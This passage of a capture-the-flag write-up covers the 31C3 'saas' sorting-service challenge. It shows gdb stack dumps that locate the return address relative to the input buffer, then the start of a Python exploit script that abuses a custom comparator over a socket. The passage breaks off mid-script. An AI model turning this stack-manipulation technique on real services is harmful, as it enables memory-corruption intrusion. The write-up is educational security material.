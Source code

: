     Welcome to SaaS (Sorting as a Service)!

    Please choose your sorting algorithm:
    0) exit
    1) little endian, lower than
    2) little endian, greater than
    3) big endian, lower than
    4) big endian, greater than
    5) popcount, lower than
    6) popcount, greater than
    7) custom
    : 1
    How many numbers do you want to sort(max 1024)?
    : 2
    Number 1: 1
    Number 2: 2
    Breakpoint 2, 0x56556fc0 in comparator(unsigned int, unsigned int) ()
    gdb-peda$ x/40wx $esp
    0xffffc07c:	0x565573dd	0x00000002	0x00000001	0xffffc0c8
    0xffffc08c:	0xffffc098	0xf7f5ce20	0xffffc114	0x00000002
    0xffffc09c:	0x0000000a	0x565578d7	0x01eef476	0x00000000
    0xffffc0ac:	0x46baeb00	0xf7f5ce60	0x565578d7	0xf7ed829b
    0xffffc0bc:	0xffffc114	0xffffc10c	0x00000008	0xffffd128
    0xffffc0cc:	0x56556dbd	0xffffc10c	0xffffc114	0x56556fc0
    0xffffc0dc:	0x56556fc0	0x00000000	0x00000000	0x00000000
    0xffffc0ec:	0x00000000	0x00000000	0x00000000	0x00000000
    0xffffc0fc:	0x00000000	0x00000000	0x00000002	0xdeadbeef
    0xffffc10c:	0x00000001	0x00000002	0x00000000	0x00000000

So the input buffer landed at `0xffffc10c`. Let's see what's 1024 words later:

    gdb-peda$ x/12wx 0xffffc10c + 1024*4
    0xffffd10c:	0x46baeb00	0xf7e66420	0xf7f57c14	0x565577db
    0xffffd11c:	0xf7e66000	0x00000000	0x56556e57	0x00000000
    0xffffd12c:	0xf7cc9e5e	0x00000001	0xffffd1c4	0xffffd1cc

Perfect, so the return address is the 8-th word after the buffer. Let's [write
an exploit](https://github.com/kitctf/writeups/blob/master/31c3-ctf/saas/leak.py)!

{% highlight python %}
import sys, socket, time, os, re, telnetlib

def get_comparator(n, offset):
    return """
answers = %s
i = 0
function f(a,b)
    i = i + 1
    return answers[i]
end



""" % os.popen("./compute_answers %d %d" % (n, offset)).read().strip()

def wait_for(s):
    while True:
        p = sock.recv(4096)
        if s in p:
            break

def swap(offset, value):
    n = 1024
    values = [value] + list(xrange(1,n))
    sock.send("7\n" +
            get_comparator(n, n + offset) +
            "1024\n" +
            "\n".join(map(str,values)) + "\n")